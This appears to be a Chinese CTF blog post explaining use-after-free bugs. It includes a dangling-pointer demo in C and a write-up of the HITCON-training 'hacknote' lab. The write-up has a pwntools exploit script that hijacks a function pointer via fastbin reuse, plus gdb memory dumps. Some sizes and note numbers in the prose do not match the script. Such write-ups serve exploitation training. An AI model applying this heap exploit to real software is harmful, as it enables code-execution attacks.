 ```yaml
---
title: Use After Free
date: 2018-03-31 16:47:28
categories:
tags:
	- CTF
	- Use-After-Free
---
```




## 原理

**根本原因：**

> 应用程序调用free()释放内存时，如果内存块小于256kb，dlmalloc并不马上将内存块释放回内存，而是将内存块标记为空闲状态。这么做的原因有两个：一是内存块不一定能马上释放会内核（比如内存块不是位于堆顶端），二是供应用程序下次申请内存使用（这是主要原因）。当dlmalloc中空闲内存量达到一定值时dlmalloc才将空闲内存释放会内核。如果应用程序申请的内存大于256kb，dlmalloc调用mmap()向内核申请一块内存，返回返还给应用程序使用。如果应用程序释放的内存大于256kb，dlmalloc马上调用munmap()释放内存。dlmalloc不会缓存大于256kb的内存块，因为这样的内存块太大了，最好不要长期占用这么大的内存资源。

Use After Free 就是其字面所表达的意思，<u>**当一个内存块被释放之后再次被使用**</u>。但是其实这里有以下几种情况

- 内存块被释放后，其对应的指针被设置为 NULL ， 然后再次使用，自然程序会崩溃。
- 内存块被释放后，其对应的指针没有被设置为 NULL ，然后在它下一次被使用之前，没有代码对这块内存块进行修改，那么**程序很有可能可以正常运转**。
- 内存块被释放后，其对应的指针没有被设置为NULL，但是在它下一次使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，**就很有可能会出现奇怪的问题**。

而我们一般所指的 **Use After Free** 漏洞主要是后两种。此外，**我们一般称被释放后没有被设置为NULL的内存指针为dangling pointer。**

简单的例子:

```c
#include <stdio.h>
#include <stdlib.h>
typedef struct name {
  char *myname;
  void (*func)(char *str);
} NAME;
void myprint(char *str) { printf("%s\n", str); }
void printmyname() { printf("call print my name\n"); }
int main() {
  NAME *a;
  a = (NAME *)malloc(sizeof(struct name));
  a->func = myprint;
  a->myname = "I can also use it";
  a->func("this is my function");
  // free without modify
  free(a);
  a->func("I can also use it");
  // free with modify
  a->func = printmyname;
  a->func("this is my function");
  // set NULL
  a = NULL;
  printf("this pogram will crash...\n");
  a->func("can not be printed...");
}
```

运行结果：  **指针被free后依然可以使用。**

```C
➜  use_after_free git:(use_after_free) ✗ ./use_after_free                      
this is my function
I can also use it
call print my name
this pogram will crash...
[1]    38738 segmentation fault (core dumped)  ./use_after_free
```



## 程序分析

1. add_note

最多可以添加5个note。每个note有两个字段put与content，其中put会被设置为一个函数，其函数会输出 content 具体的内容。就指针保护被覆盖  可以重用。

2. print_note

根据给定的note的索引来输出对应索引的note的内容

3. delete_note

根据给定的索引来释放对应的note。

在删除的时候，只是单纯进行了free，而没有设置为NULL，存在Use After Free。



程序中有magic() 函数， 可以 get flag。



## 利用思路

[HITCON-training 中的 lab 10 hacknote为例](use-after-free/use_after_free.zip)。

**修改note的put字段为magic函数的地址，从而实现在执行print note 的时候执行magic函数**

```
   +-----------------+                       
   |   put           |                       
   +-----------------+                       
   |   content       |       size              
   +-----------------+------------------->+----------------+
                                          |     real       |
                                          |    content     |
                                          |                |
                                          +----------------+
```

- 申请note0，real content size为16（大小与note大小所在的bin不一样即可）
- 申请note1，real content size为16（大小与note大小所在的bin不一样即可）
- 释放note0
- 释放note1
- 此时，大小为16的fast bin chunk中链表为note1->note0   (fastbin[0] 保存16字节的chunk)
- 申请note2，并且设置real content的大小为8，那么根据堆的分配规则
- note2其实会分配note1对应的内存块。
- real content 对应的chunk其实是note0。
- 如果我们这时候向note3的chunk部分写入magic的地址，那么由于我们没有note1为NULL。当我们再次尝试输出note1的时候，程序就会调用magic函数。



```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
r = process('./hacknote')
def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)
def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))
#gdb.attach(r)
magic = 0x08048986
addnote(32, "aaaa") # add note 0
addnote(32, "ddaa") # add note 1
delnote(0) # delete note 0
delnote(1) # delete note 1
addnote(8, p32(magic)) # add note 2
printnote(0) # print note 0
r.interactive()
```



## 内存状态



```

notelist:
gef➤  x/10x 0x804A070 
0x804a070 <notelist>:	     0x08f25008	0x08f25040	0x00000000  0x00000000
0x804a080 <notelist+16>:	0x00000000	0x00000000	0x00000000  0x00000000

Chunk0：
0x08f25008 put
0x08f25018 control
gef➤  x/10x 0x08f25008
0x8f25008:	0x0804865b	0x08f25018	0x00000000	0x00000029
0x8f25018:	0x61616161	0x0000000a	0x00000000	0x00000000
0x8f25028:	0x00000000	0x00000000

Chunk1：
0x08f25040  put
0x08f25050  control
gef➤  x/10x 0x08f25040
0x8f25040:	0x0804865b	0x08f25050	0x00000000	0x00000029
0x8f25050:	0x61616464	0x0000000a	0x00000000	0x00000000
0x8f25060:	0x00000000	0x00000000


free 0 ， free 1
Fastbin[0]  →   UsedChunk(addr=0x932c040,size=0x10)   →   UsedChunk(addr=0x932c008,size=0x10)  
Fastbin[1] 0x00
Fastbin[2] 0x00
Fastbin[3]  →   UsedChunk(addr=0x932c050,size=0x28)   →   UsedChunk(addr=0x932c018,size=0x28)  
Fastbin[4] 0x00


Add 3 ， malloc  put
Fastbin[0]  →   UsedChunk(addr=0x8572008,size=0x10)  
Fastbin[1] 0x00
Fastbin[2] 0x00
Fastbin[3]  →   UsedChunk(addr=0x8572050,size=0x28)   →   UsedChunk(addr=0x8572018,size=0x28)  
Fastbin[4] 0x00

Add 3 ， malloc  control
Fastbin[0] 0x00
Fastbin[1] 0x00
Fastbin[2] 0x00
Fastbin[3]  →   UsedChunk(addr=0x8572050,size=0x28)   →   UsedChunk(addr=0x8572018,size=0x28)  
Fastbin[4] 0x00


notelist:
gef➤   x/10x 0x804A070 
0x804a070 <notelist>:		0x09d4b008	0x09d4b040	0x09d4b040   0x00000000
0x804a080 <notelist+16>:	0x00000000	0x00000000	0x0000000    0x00000000

Chunk3:
0x0804865b: put
0x09d4b008:control
gef➤  x/10x 0x09d4b040
0x9d4b040:	0x0804865b	0x09d4b008	0x00000000	0x00000029
0x9d4b050:	0x09d4b010	0x0000000a	0x00000000	0x00000000
0x9d4b060:	0x00000000	0x00000000

Chunk3->control  即 chunk0 -> put  
写入 magic函数  地址，
这样我们调用 chunk0 -> put    既可以指向 magic 函数

```



## 参考

https://ctf-wiki.github.io/ctf-wiki/pwn/heap/use_after_free/

https://blog.csdn.net/qq_31481187/article/details/73612451